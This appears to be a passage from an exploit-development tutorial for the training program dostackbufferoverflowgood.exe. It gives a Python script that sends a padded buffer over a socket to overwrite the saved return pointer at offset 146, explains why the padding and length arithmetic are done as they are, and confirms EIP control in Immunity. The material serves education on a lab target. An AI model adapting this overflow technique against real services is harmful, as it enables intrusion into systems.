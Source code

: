 ```{.python .numberLines}
#!/usr/bin/env python3
import socket

RHOST = "172.17.24.132"
RPORT = 31337

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((RHOST, RPORT))

buf_totlen = 1024
offset_srp = 146

buf = b""
buf += b"A"*(offset_srp - len(buf))    # padding
buf += b"BBBB"                         # SRP overwrite
buf += b"CCCC"                         # ESP should end up pointing here
buf += b"D"*(buf_totlen - len(buf))    # trailing padding
buf += b"\n"

s.send(buf)
```

---

**Why the trailing padding?**

It's sometimes necessary to keep the total length of what you're sending
constant. Some programs will behave differently with differently sized inputs,
and until you're certain that this won't affect your exploit, you should keep
the length constant. In our case, let's always send `buf_totlen` (1024)
characters followed by a newline. It's not needed for
`dostackbufferoverflowgood.exe` but it's a good habit to pick up early-on.

**What's with all the `"something - len(buf)"`?**

It's way of saying "append enough of the character to make the string be
`something` characters long". `len(buf)` is the current length of the string,
so we subtract it from `something` to get the number of characters we need to
append to take it out to a total length of `something`.

Note that we do it every time, even for the `A`'s. `len(buf)` will be `0` when
we append these `A`'s, but if we ever need to add something in at the beginning
of the `A`'s then we can slip it in and the appending of `A`'s will
automatically adjust to compensate. Cool huh?

\newpage

Running this:

```
% ./exploit.py
```

Immunity tells us that we get a crash, this time on `0x42424242` (The ASCII
sequence `"BBBB"`) and `ESP` points to `"CCCC"` followed by a bunch of `"D"`
characters. Just as expected.
